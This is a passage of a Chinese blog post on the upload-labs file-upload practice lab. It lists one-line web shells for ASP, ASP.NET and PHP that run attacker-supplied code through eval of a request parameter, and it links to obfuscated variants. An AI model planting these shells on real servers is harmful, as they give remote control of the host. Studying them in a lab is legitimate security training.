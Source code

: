 ```yaml
---
layout:     post
title:      upload-labs
subtitle:   文件上传
date:       2021-3-13
author:     YY
header-img: img/post/2.jpg
catalog: true
tags:
    - upload-labs
    - 文件上传
---
```


## 前言
[文件上传](https://yangyang-linux.gitee.io/2021/02/04/dvwa%E4%B9%8B%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/)
## 各版本的一句话木马
```bash
ASP（.asp）: 
<%eval request("cmd")%> 

ASP.NET(.ASPX): 
<%@ Page Language="Jscript"%> 
<%eval(Request.Item["cmd"],"unsafe");%> 

PHP: 
<?php @eval($_POST['hacker'])?> 

变形一句话：https://blog.csdn.net/bylfsj/article/details/101227210
```

## 限制与绕过